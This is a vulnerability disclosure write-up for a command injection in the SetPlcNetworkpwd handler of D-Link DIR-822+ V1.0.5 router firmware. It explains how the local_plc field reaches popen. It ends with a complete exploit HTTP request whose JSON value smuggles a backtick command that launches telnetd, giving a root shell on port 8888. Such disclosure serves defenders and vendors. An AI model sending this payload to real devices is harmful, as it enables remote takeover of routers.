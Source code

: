 ## DIR-822+ Command Injection

### Overview

* Manufacturer's address：http://www.dlink.com.cn/
* Firmware download address ：http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-822%2B

### Affected version

D-Link DIR-822+ V1.0.5 was found to contain a command injection in `SetPlcNetworkpwd` function of`prog.cgi`, which allows remote attackers to execute arbitrary commands via shell

![image-20240421163220274](./img/4.png)

### Vulnerability details

Vulnerability occurs in `/HNAP1/SetPlcNetworkpwd`. Attackers can control `v22` by setting the `local_plc`.

Split `v22` with a comma and pass the value to `v21` with a simple check, finally call ths `FCGI_popen`

![image-20240421163827190](./img/2.png)

`FCGI_popen`Called `popen` to create a pipeline to execute the command.

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `local_plc`. 

### EXP

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 50
Accept: application/json
HNAP_AUTH: 5E736BA3725CFF7870DC7A1B6B9512E6 1703160655517
SOAPACTION: "http://purenetworks.com/HNAP1/SetPlcNetworkpwd"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=akiKeInk; PrivateKey=880D5E30644E82353544D9496CA35B50; timeout=51
Connection: close

{"SetPlcNetworkpwd": {"local_plc":"user, `telnetd -l /bin/sh -p 8888 -b 0.0.0.0`"}}
```

![image-20240421163827190](./img/3.png)
